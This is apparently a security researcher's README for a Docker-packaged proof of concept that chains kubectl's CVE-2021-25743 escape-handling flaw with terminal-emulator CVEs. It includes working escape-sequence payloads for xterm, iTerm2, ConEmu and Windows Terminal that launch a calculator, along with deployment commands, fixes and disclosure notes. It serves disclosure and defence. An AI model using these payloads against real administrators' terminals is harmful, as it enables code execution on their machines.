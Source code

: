 # Kubectl escape character handling PoC

This is a proof of concept for [CVE-2021-25743][cve-2021-25743] combined with a
selection of terminal vulnerabilities I found that can achieve remote code
execution across several client platforms (some common, some less so). It is
delivered as a very simple Docker image for ease of testing.

## An imaginary scenario

Container escapes usually need a bug in the container infrastructure, like a
kernel bug or another bug in a subsystem like runc.

If an attacker is unable to abuse those, they may look for more creative means.
This is one such method, it relies on a pod crashing and the administrator
attempting to debug it, while using a terminal with a vulnerability.

In Kubernetes `/dev/termination-log` is world writable within the container and
it's very trivial to crash a container (e.g. run it out of memory). This means
if an attacker finds a way to make an application write to that file and also
DoS an application, they can potentially make the administrator start looking
(to see what the problem is, e.g. prompted by an alert) and in the process of
doing that, the administrator could get attacked, with code execution achieved
on their client machine.

This means the container does not need Kubernetes API access of any kind, a
common way to reduce Kubernetes attack surface is to [turn off the service
account secret][apicred] which is automatically mounted in each pod. The issue
with `/dev/termination-log` is not new, Trail of Bits covered it in their [2019
audit of Kubernetes][2019audit] and a [PR is open][pr108076] to tighten the
permissions.

## Usage

_Only use this on systems you have permission to test._

With kubectl configured with a cluster and namespace you have access to create
pods in, simply:

```
kubectl run --image=davidgl/houdini-kubectl-poc kubectl-poc
sleep 10  # or however long the cluster take to schedule the pod
kubectl describe pod/kubectl-poc
```

The pod deliberately crashes. Manual cleanup is needed; delete the
pod when finished:

```
kubectl delete pod/kubectl-poc
```

## CVEs

This primarily targets Kubectl's CVE-2021-25743. It needs to be combined with a
terminal vulnerability to have any effect though. Some examples are:

- xterm font OSC ([CVE-2022-45063][CVE-2022-45063])

  `"\e]50;i$(xcalc&)\a\e]50;?\a"`

- iTerm2 DECRQSS ([CVE-2022-45872][CVE-2022-45872])

  `"\eP$q;open -a Calculator\r\e\\\eP$q\e\\"`

- ConEmu title ([CVE-2022-46387][CVE-2022-46387])

  `"\e]0;\rcalc.exe\r\e\\\e[21t"`

- Windows Terminal WSL directory ([CVE-2022-44702][CVE-2022-44702])

  `"\e]9;9;/" calc.exe "o /\e\\"`

- Some colour (not a terminal vulnerability, test for CVE-2021-25743 alone)

  `"\e[31mIf you see this in red your kubectl is not fixed against CVE-2021-25743\e[m"`

The list above contains escape sequences in C-style strings, as this section of
the readme is expanded and written to /dev/termination-log, see
[Dockerfile](Dockerfile).

Note the last entry is not a terminal vulnerability, but an attacker could
still use it in an attempt to social engineer the administrator, e.g. change
something else on screen (cursor movement sequences means they can change lines
above where the text is actually output).

## I'm vulnerable, help?

- Update to kubectl of at least 1.26;
- Update your terminal

## Disclosure

All of the terminal bugs were responsibly disclosed to the authors of the
affected software and have now been fixed for several months.

Several of these exploits were shared with the Kubernetes Security team in
advance for awareness, in general the bugs are in terminals, so while Kubectl
should (and now does, at least in this case) escape these characters, the
reason the issues turn out to be severe are because of the more severe bugs in
terminals.

## Credits

- Eviatar Gerzi for [finding the kubectl issue][cyberark-title] originally;
- [G-Research Open Source](https://opensource.gresearch.co.uk/) for letting me research this;
- All the terminal authors for fixing things.

[cve-2021-25743]: https://cve.mitre.org/cgi-bin/cvename.cgi?name=2021-25743
[CVE-2022-45063]: https://www.openwall.com/lists/oss-security/2022/11/10/1
[CVE-2022-45872]: https://nvd.nist.gov/vuln/detail/CVE-2022-45872
[CVE-2022-44702]: https://github.com/microsoft/terminal/releases/tag/v1.15.2874.0
[CVE-2022-46387]: https://gist.github.com/dgl/05ca60cdc7efc9e47bbc58d0c952635e
[pr108076]: https://github.com/kubernetes/kubernetes/pull/108076
[apicred]: https://kubernetes.io/docs/tasks/configure-pod-container/configure-service-account/#opt-out-of-api-credential-automounting
[2019audit]: https://github.com/kubernetes/sig-security/blob/6f1cec8878c705b67982e9b3bf3b52d6f19e17e0/sig-security-external-audit/security-audit-2019/findings/Kubernetes%20Final%20Report.pdf
[cyberark-title]: https://www.cyberark.com/resources/threat-research-blog/dont-trust-this-title-abusing-terminal-emulators-with-ansi-escape-characters
